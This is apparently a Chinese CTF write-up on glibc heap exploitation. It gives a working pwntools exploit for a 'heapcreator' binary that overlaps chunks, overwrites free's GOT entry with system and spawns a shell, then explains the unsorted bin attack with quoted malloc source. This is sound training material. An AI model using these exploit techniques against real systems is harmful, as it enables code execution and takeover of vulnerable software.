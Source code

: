 ```python
if __name__ == "__main__":
    io = process("./heapcreator", {"LD_LOADPRE": "/lib/x86_64-linux-gnu/libc.so.6"})
    libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

    create(0x18, '0000') # 0
    create(0x10, '1111') # 1

    payload = "/bin/sh\0" + cyclic(0x10) + p8(0x41)
    edit(0, payload) # overwrite 1

    delete(1) # overlapping chunk

    freeGot = 0x0000000000602018
    payload = p64(0) * 4 + p64(0x30) + p64(freeGot)
    create(0x30, payload)
    show(1)

    libcBase = u64(io.recvuntil("\x7f")[-6: ].ljust(8, "\x00")) - libc.sym["free"]
    success("libcBase -> {:#x}".format(libcBase))
    #  pause()
    edit(1, p64(libcBase + libc.sym["system"]))

    delete(0)
    io.interactive()
    io.close()
```

### lab14-magicheap
在 edit\_heap() 里有 arbitrary overflow, 我们最终要达到的目的是修改全局变量 magic > 4869, 可以考虑使用 unsorted bin attack 这一技巧
unsorted bin attack 的结果是向任一地址写一个不可控的大数(unsorted bin list 的地址), 看起来比较局限, 但在某些情境下还是很有用的:

- 修改 global\_max\_fast 为一个较大的数, 这样根据 malloc 的源码
```C
/*
   If the size qualifies as a fastbin, first check corresponding bin.
   This code is safe to execute even if av is not yet initialized, so we
   can try it without checking, which saves some time on this fast path.
*/
if ((unsigned long) (nb) <= (unsigned long) (get_max_fast ()))
 {
   idx = fastbin_index (nb);
   mfastbinptr *fb = &fastbin (av, idx);
   mchunkptr pp = *fb;
    .....
```
更大的 chunk 也可以被视为 fastbin, fastbin attack 的利用范围就大了很多

- 往某一地址上写值, 比如可以在 \_\_free\_hook 前的某一地址上写入一个大数(0x7f\*\*\*\*\*\*\*\*\*\*)来满足 fastbin attack 的条件(提供 fastbin 的 size)

unsorted bin attack 的原理也很简单, unsorted bin 的自己实现了 unlink 的功能, 没有使用宏定义
```C
          bck = victim->bk;
          ......
          /* remove from unsorted list */
          unsorted_chunks (av)->bk = bck;
          bck->fd = unsorted_chunks (av);

```
可以看出, 如果我们能控制 unsorted bin 的bk 为地址 target - 16, 那么在 bck -> fd = unsorted\_chunks(av) 这一步时, target 就会被写入 unsorted bin 的地址. 但同时也要注意此时 unsorted bin list 已经被破坏, 下次再有 unsorted bin 的操作就会引起 crash
